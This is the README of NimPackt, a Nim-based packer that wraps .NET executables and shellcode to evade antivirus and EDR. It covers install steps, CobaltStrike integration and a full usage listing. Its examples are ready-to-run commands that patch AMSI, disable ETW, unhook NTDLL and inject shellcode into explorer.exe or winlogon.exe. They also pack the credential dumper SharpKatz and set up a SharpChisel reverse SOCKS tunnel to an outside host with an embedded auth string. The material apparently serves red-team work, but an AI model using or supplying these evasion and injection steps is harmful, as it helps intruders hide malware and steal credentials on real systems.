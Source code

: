 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for C# / .NET executables and raw shellcode

*By Cas van Cooten (@chvancooten)*

## Description

NimPackt is a Nim-based packer for C# / .NET executables and Windows shellcode. It automatically wraps these executables (along with its arguments) in a Nim binary that is compiled to Native C and as such harder to detect and reverse engineer. There are two main execution methods: 
- `Execute-Assembly` re-packs a .NET executable and runs it, optionally applying evasive measures such as API unhooking, AMSI patching, or disabling ETW.
- `Shinject` takes raw a .bin file with raw, position-independent shellcode and executes it locally or in a remote process, optionally using direct syscalls to trigger the shellcode or patching API hooks to evade EDR.

Currently, NimPackt has the following features.

- Uses direct syscalls to patch AMSI and/or run shellcode to evade EDR
- Unhooks user-mode APIs for spawned thread by refreshing `NTDLL.dll` using [ShellyCoat](https://github.com/slaeryan/AQUARMOURY/tree/master/Shellycoat)
- Disabling Event Tracing for Windows (ETW) 
- Patches the Anti-Malware Scan Interface (AMSI)
- AES-encrypts payload to prevent static analysis or fingerprinting
- Obfuscates static strings used in the binary
- Compiles to `exe` or `dll`
- Supports cross-platform compilation (from both Linux and Windows)
- Integrates with CobaltStrike for ezpz payload generation 😎

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. Even though embedded binaries are encrypted, you should obfuscate sensitive binaries (such as Mimikatz) to lower the risk of detection.

If you want to go all-out on OpSec, you could re-pack the Nim binary using a tool like [PEzor](https://github.com/phra/PEzor) to re-pack the binary into position-independent shellcode and launch it from memory using CobaltStrike, though this is a bit beyond the purpose of NimPackt 😙

## Installation

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages and Python libraries.

```
sudo apt install -y python3 mingw-w64 nim
pip3 install pycryptodome argparse
nimble install winim nimcrypto
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility. If you don't have Python3 install that, then install the required packages as follows.

```
nimble install winim nimcrypto
pip3 install pycryptodome argparse
```

### CobaltStrike Plugin 

To install the CobaltStrike plugin, select `Cobalt Strike` -> `Script Manager` from the menu bar, and select `Load`. Make sure to load the `.cna` file from it's original location, otherwise it won't be able to find the NimPackt script files!

## Usage

```
usage: NimPackt.py [-h] -e EXECUTIONMODE -i INPUTFILE [-a ARGUMENTS] [-na] [-ne] [-r]
                   [-t INJECTTARGET] [-E] [-o OUTPUTFILE] [-nu] [-ns] [-f FILETYPE] [-s] [-32]
                   [-S] [-d] [-v] [-V]

required arguments:
  -e EXECUTIONMODE, --executionmode EXECUTIONMODE
                        Execution mode of the packer. Supports "execute-assembly" or
                        "shinject"
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable (.exe) or shellcode (.bin) to wrap

execute-assembly arguments:
  -a ARGUMENTS, --arguments ARGUMENTS
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept
                        run-time arguments (default)
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW)

shinject arguments:
  -r, --remote          Inject shellcode into remote process (default false)
  -t INJECTTARGET, --target INJECTTARGET
                        Remote thread targeted for remote process injection (default
                        "explorer.exe", implies -r)
  -E, --existing        Remote inject into existing process rather than a newly spawned one
                        (default false, implies -r) (WARNING: VOLATILE)

other arguments:
  -o OUTPUTFILE, --outfile OUTPUTFILE
                        Filename of the output file (e.g. "LegitBinary"). Specify WITHOUT
                        extension or path. This property will be stored in the output binary
                        as the original filename
  -nu, --nounhook       Do NOT unhook user-mode API hooks in the target process by loading a
                        fresh NTDLL.dll
  -ns, --nosyscalls     Do NOT use direct syscalls (Windows generation 7-10) instead of high-
                        level APIs to evade EDR
  -f FILETYPE, --filetype FILETYPE
                        Filetype to compile ("exe" or "dll", default: "exe")
  -s, --sleep           Sleep for approx. 30 seconds by calculating primes
  -32, --32bit          Compile in 32-bit mode (untested)
  -S, --showConsole     Show a console window with the app's output when running
  -d, --debug           Enable debug mode (retains .nim source file in output folder)
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```bash
# Pack SharpKatz to accept arguments at runtime, patching NTDLL hooks, AMSI, and ETW while printing verbose messages to a visible console at runtime
python3 ./NimPackt.py -e execute-assembly -i bins/SharpKatz-x64.exe -S -v

# Pack Seatbelt as a DLL file with baked-in arguments (note: write to outfile because stdout is not available for DLLs)
python3 ./NimPackt.py -f dll -e execute-assembly -i Seatbelt.exe -a "-group=all -outputfile=c:\users\public\downloads\sb.txt"

# Pack SharpChisel with a built-in ChiselChief connection string, do not unhook, patch AMSI, or disable ETW, hide the application window at runtime
python3 NimPackt.py -nu -na -ne -e execute-assembly -i bins/SharpChisel.exe -a 'client --auth nimpackt.demo_A:718nubCpwiuLUW --keepalive 25s --max-retry-interval 25s https://chisel.azurewebsites.net R:10073:socks'

# Pack raw shellcode to DLL file that executes in the local thread through direct syscalls, unhooking NTDLL as well
# Shellcode generated with 'msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o /tmp/calc.bin'
python3 NimPackt.py -i calc.bin -e shinject -f dll

# Pack raw shellcode to execute in a newly spawned Explorer thread in an invisible window
python3 NimPackt.py -i calc.bin -e shinject -r

# Pack raw shellcode to execute in the existing Winlogon process (first PID with name 'winlogon.exe'), do not use direct syscalls or unhook NTDLL
python3 NimPackt.py -i calc.bin -e shinject -r -E -t "winlogon.exe" -nu -ns
```

Binaries are stored in the `output` subfolder of your installation directory. Generated `dll` files should be executed as follows:

```powershell
rundll32 exampleShinjectNimPackt.dll,Update
```

## Wishlist

- Replace ShellyCoat with native code to unhook NTDLL [described here](https://s3cur3th1ssh1t.github.io/A-tale-of-EDR-bypass-methods/)
- Patch ETW by patching the actual function call (after Shellycoat) using [this method](https://gist.github.com/S3cur3Th1sSh1t/0f44b1a12c7eceb8f7be10799ba5018d)